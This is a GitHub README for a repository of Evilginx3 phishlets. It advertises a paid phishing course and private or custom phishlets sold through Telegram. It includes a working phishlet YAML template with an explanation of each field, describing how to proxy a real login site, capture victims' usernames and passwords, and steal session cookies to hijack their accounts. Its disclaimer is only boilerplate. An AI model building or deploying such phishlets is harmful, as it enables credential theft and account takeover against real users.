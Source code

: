 # Updated Evilginx3 Phishlets  
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.


# FOR [Advanced EvilGoPhish Mastery Course] CONTACT IN MY TELEGRAM  -  https://t.me/hidden9090    

     

This is a course for the advanced hackers, red teams, and penetration testers looking to gain an edge in today's security environment. 
Learn advanced phishing & smishing techniques with EvilGoPhish 3.0, one of the most powerful reverse-proxy phishing tools available.

EvilGoPhish Mastery is *bar none* the most dynamic and nuanced reverse-proxy phishing course on the market.

The course works in tandem with this repo by diving deep into the entire process of deploying these scripts for red team phishing & smishing campaigns.



# Curriculum Previews:

![Screenshot 2024-06-01 064917](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/f506630f-06ff-4285-9c09-26fbcf57a588)
![evilgophish 3 0 course preview release setup section trailer](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/9be0b731-6934-4d52-ba7c-becb43141a96)
![Evilgophish mastery course cloudflare turnstile lesson preview www simplerhacking](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/0c22ecc6-9b6d-44c0-bf3f-e8624ecbd917)

![Screenshot 2024-06-01 044437](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a295035-e41a-4c9a-956a-c0366129088c)



![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (1)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cb043987-2315-47dc-abf6-9e508d7c1128)

![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (2)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a3dd41e-72b4-4701-9675-53f8c765a246)

![(Smaller 8 MB for Github) evilgophish kuba graphic in moving format and gif short 8 second loop](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cba899aa-e100-4af9-b621-f5dce14b2786)




## Need Custom Phishlets? 
MY TELEGRAM  -  https://t.me/hidden9090


##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0


```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.



## Want more Evilginx Phishlets not available on Github? 
Gain access to more private Phishlets not available to the public Contact me  -  https://t.me/hidden9090




<img width="264" alt="Patreon" src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/3e9d587d-0792-4dad-a6d2-aaa004197508">



### Enroll in our training lessons 

CONTACT :-
MY TELEGRAM  -  https://t.me/hidden9090
## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
